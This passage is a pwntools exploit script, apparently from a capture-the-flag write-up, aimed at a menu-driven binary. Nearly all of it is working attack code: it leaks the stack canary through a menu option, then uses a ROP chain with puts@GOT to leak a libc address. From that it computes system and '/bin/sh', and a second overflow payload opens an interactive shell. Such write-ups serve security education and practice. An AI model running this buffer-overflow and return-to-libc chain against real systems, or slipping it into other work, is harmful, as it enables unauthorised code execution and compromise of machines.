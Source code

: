 ```
#Select the second option, to print out our input and leak the canary
target.sendline('2')
print target.recvuntil("[*]PLEASE TREAT HIM WELL.....")
print target.recvline()
print target.recvline()
print target.recvline()

#Scan in, parse out, unpack, and print the stack canary
leak = target.recvline()
print len(leak)
canary = u64("\x00" + leak[0:7])
log.info("The Stack Canary is: " + hex(canary))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the puts address
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(puts_got) + p64(puts_plt) + p64(main)
target.sendline(leak_payload)
print target.recvuntil(">>")

#Se;ect the option to exit the loop, then scan in the address
target.sendline('3')
print target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\n")
puts_leak = target.recvline()
puts_leak = u64(puts_leak[0:6] + (8 - len(puts_leak[0:6]))*"\x00")
log.info("puts_leak: " + hex(puts_leak))

#Calculate the address of system and /bin/sh
system = puts_leak - 0x2b280
binsh = puts_leak + 0x11a320
log.info("system: " + hex(system))
log.info("binsh:  " + hex(binsh))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will pop a shell for us
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(binsh) + p64(system) 
target.sendline(leak_payload)
print target.recvuntil(">>")

#Send the menu option to return, and execute out payload
target.sendline("3")

#drop to an interactive shell
log.info("Enjoy your shell XD")
target.interactive()
```
